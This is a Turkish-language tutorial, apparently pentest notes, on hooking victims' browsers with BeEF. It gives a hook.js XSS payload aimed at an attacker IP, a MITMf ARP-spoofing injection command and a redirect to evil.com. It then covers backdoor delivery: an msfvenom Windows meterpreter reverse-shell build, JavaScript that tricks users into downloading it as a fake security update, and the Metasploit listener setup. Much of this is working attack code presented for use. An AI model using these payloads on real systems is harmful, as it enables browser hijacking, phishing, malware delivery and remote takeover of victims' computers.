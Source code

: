 ### BeEF (Browser Exploitation Framework) Nedir?
BeEF (Browser Exploitation Framework), tarayıcıları hedef alan güvenlik açıklarını test etmek için kullanılan bir sızma testi aracıdır.

### 📌 Ne İşe Yarar?
🔹 XSS açıkları üzerinden tarayıcıyı ele geçirmek
🔹 Hedefin IP, cihaz bilgileri, ağ bağlantıları gibi bilgilerini toplamak
🔹 Tarayıcı üzerinden komut çalıştırarak saldırılar simüle etmek
🔹 Pentest ve güvenlik araştırmalarında kullanılır

### 📌 Nasıl Çalışır?
1️⃣ Hedefin Tarayıcısını Hook'lama
XSS açığı bulunan bir siteye BeEF JavaScript payload’u enjekte edilir.
Kullanıcı bu sayfaya girince tarayıcısı BeEF’e bağlanır.
2️⃣ Tarayıcı Üzerinden Bilgi Toplama ve Exploit Çalıştırma
Kullanıcının IP adresi, işletim sistemi, tarayıcı bilgileri alınır.
Keylogger, sayfa değiştirme, phishing saldırıları gibi testler yapılabilir.
Hedefi Oltaya Takmak
### 2️⃣ Hedef Tarayıcıyı "Hook" Et (Bağlamak)
✅ Hedefin tarayıcısını BeEF’e bağlamak için XSS veya açık bir site kullanılır.
✅ BeEF'in hook.js kodunu hedefte çalıştırmalısın:
```
html
```
<script src="http://YOUR_IP:3000/hook.js"></script>
🔹 Eğer bir web sitesinde XSS açığı bulduysan, yukarıdaki kodu payload olarak enjekte edebilirsin.
🔹 Hedef bu sayfayı açtığında tarayıcısı BeEF’e bağlanır.

### 3️⃣ Hedef Tarayıcıya Komut Gönderme
✅ BeEF panelinden hooklanan (bağlanan) tarayıcıyı seç ve aşağıdaki işlemleri yapabilirsin:
🔹 Bilgi Toplama:
Tarayıcı ve işletim sistemi bilgilerini al
Hedefin IP adresini öğren
🔹 Tarayıcı Üzerinde Saldırı Simülasyonu:
Alert pop-up çıkartma:
javascript
alert("Tarayıcınız ele geçirildi!");
Keylogger çalıştırma
Phishing sayfası açma
Sayfa yönlendirme (Redirect)
JavaScript Enjeksiyonu
MitM Saldırısı
```
#python mitmf.py --arp --spoof --gateway 10.0.2.1 --target 10.0.2.4 -i eth0 --inject --js-url
```
gateway=modem ip
target=hedef ip
(bettercap daha güncel bir araçtır. Genelde artık bettercap kullanılır.)
### BeEF Kontrol Paneli – Kısaca Özet
BeEF'in kontrol paneli, bağlanan tarayıcıları yönetmek ve saldırı simülasyonları yapmak için kullanılan bir arayüzdür. http://127.0.0.1:3000/ui/panel adresinden erişilir.

### 📌 BeEF Kontrol Panelinin Bölümleri
## 1️⃣ Online Tarayıcılar (Hooked Browsers)
✅ Bağlanan (hook edilen) tarayıcıları listeler.
✅ Hedefin IP adresi, işletim sistemi, tarayıcı türü ve versiyonu gösterilir.

## 2️⃣ Modüller (Commands)
✅ Hedef tarayıcıda çalıştırılabilecek exploit ve komutları içerir.
✅ Kullanılabilecek bazı modüller:
Alert Box Gönderme (alert("Hacked!"))
Sayfa Yönlendirme (window.location="http://evil.com")
Keylogger (Klavye Dinleme)
Sahte Login Sayfası Gösterme (Phishing)

## 3️⃣ Loglar ve Konsol (Logs & Console)
✅ Çalıştırılan komutların ve hedeften gelen cevapların kaydedildiği bölümdür.
✅ JavaScript kodları girerek hedef tarayıcıda testler yapabilirsin.

## 4️⃣ Ağ Saldırıları (Network Attacks)
✅ Hedef tarayıcı yerel ağda (LAN) çalışıyorsa, yerel cihazları ve portları taramak için kullanılabilir.
### 4️⃣ Hedef Tarayıcıdan Çıkma ve Kapanış
✅ Hedef tarayıcı sayfayı kapatırsa bağlantı kopar.
✅ BeEF’i durdurmak için CTRL + C yaparak terminalden kapatabilirsin.

### 📌 Özet
🚀 BeEF, tarayıcı güvenlik açıklarını test etmek için kullanılır.
✅ XSS açığını kullanarak bir tarayıcıyı "hook" edersin.
✅ Bağlanan tarayıcıda bilgi toplama, yönlendirme ve phishing testleri yapabilirsin.
### BeEF ile Backdoor Gönderme (Kısaca)
BeEF, hedefin tarayıcısını "hook" ettikten sonra çeşitli saldırılar simüle edebilir. Bunlardan biri de bir backdoor dosyasını hedefe iletmek ve çalıştırmasını sağlamaktır.

### 1️⃣ BeEF ile Hedefi "Hook" Et
Öncelikle hedefin tarayıcısını BeEF’e bağlamalısın. Bunun için bir XSS açığı veya hedefin ziyaret ettiği bir sayfaya aşağıdaki hook.js kodunu ekleyebilirsin:
```
html
```
<script src="http://YOUR_IP:3000/hook.js"></script>
🔹 Hedef bu sayfayı açınca tarayıcısı BeEF’e bağlanır.

### 2️⃣ Backdoor Payload Hazırla (Metasploit ile)
Metasploit kullanarak bir Windows reverse shell backdoor oluştur:
```
bash
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f exe > backdoor.exe
🔹 LHOST: Kendi IP adresin
🔹 LPORT: Dinleyeceğin port

### 3️⃣ BeEF ile Hedefe Backdoor Gönderme
BeEF kontrol paneline gir (http://127.0.0.1:3000/ui/panel) ve "Hooked Browsers" sekmesinden hedefi seç.
✅ Saldırı Modüllerinden "Create Invisible iFrame" Kullan:
Bunu kullanarak arka planda zararlı dosyanın indirildiği bir iFrame oluşturabilirsin:
```
javascript
```
window.location.href = "http://YOUR_IP/backdoor.exe";
✅ Fake Güncelleme Mesajı ile İndirtme:
Hedefe sahte bir mesaj gösterip backdoor’u indirmesini sağlamak için:
```
javascript
```
alert("Güvenlik güncellemesi gerekli! Güncellemeyi indirmek için Tamam'a tıklayın.");
window.location.href = "http://YOUR_IP/backdoor.exe";
✅ HTML 5 Download API Kullanımı:
```
javascript
```
var link = document.createElement('a');
link.href = 'http://YOUR_IP/backdoor.exe';
link.download = 'update.exe';
document.body.appendChild(link);
link.click();
🔹 Bu yöntem, dosyanın tarayıcı tarafından otomatik indirilmesini sağlar.

### 4️⃣ Backdoor’u Dinleme ve Yönetme
Hedef backdoor.exe dosyasını çalıştırırsa, Metasploit ile bağlantıyı dinle:
```
bash
```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST YOUR_IP
set LPORT 4444
exploit
📌 Başarıyla bağlantı kurulduğunda hedef sistem üzerinde kontrol sağlarsın.



